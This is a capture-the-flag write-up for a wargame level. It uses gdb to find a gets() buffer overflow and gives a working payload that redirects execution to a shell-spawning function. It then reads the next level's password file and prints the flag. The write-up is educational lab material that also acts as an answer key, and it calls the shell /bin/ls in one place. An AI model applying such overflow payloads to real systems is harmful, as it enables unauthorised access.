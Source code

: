 # level1

We find an executable `level1`. We run `gdb level1` to examine it.

`disas main` yields us a very simple main ; it only does a `gets` and exits. `info functions` shows us other functions, and among them, one called `run` ; and `disas run` shows a function that runs a `system("/bin/sh")`.

What can we do here ? The run function we're looking for isn't naturally called by `main`. We'll have to use the `gets` to call `run`. Here's how we can do that :

## **The exploit**

`gets` is famous for being vulnerable to buffer overflows. If you overwrite further than the buffer, you can overwrite certain parts of the stack. Here, we want to overwrite the **return address of the main function** : the `eip` register.

Through experimentation, we find we can overwrite `eip` from character 77 to character 80 of the `gets`. This means writing 76 characters + the desired address will trick the program into going where we want.

We use Python to make our output easier :

```
python2 -c 'print("A" * 76 + DESIRED_ADDRESS)'
```

`disas run` gave us the address of run : `0x08048444`. We add it to our output, reversing to bytes to account for endianness :

```
python2 -c 'print("A" * 76 + "\x44\x84\x04\x08")'
```

Finally, we have to pipe it into the executable. But there's an issue : when `system("/bin/sh")` is ran, it'll read from `stdin`, and since we're overloading `stdin`, we'll need to add a `cat` in the mix. We run :

```
( python2 -c 'print("A" * 76 + "\x44\x84\x04\x08")' ; cat ) | ./level1
```

## **The flag**

The `python -c` overflows `gets`, `eip` is filled with the `run` address, `system("/bin/ls")` is ran and our `cat` is asked for a command. We run :

```
cat /home/user/level2/.pass
```

... and get the flag for `level1` :

```
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```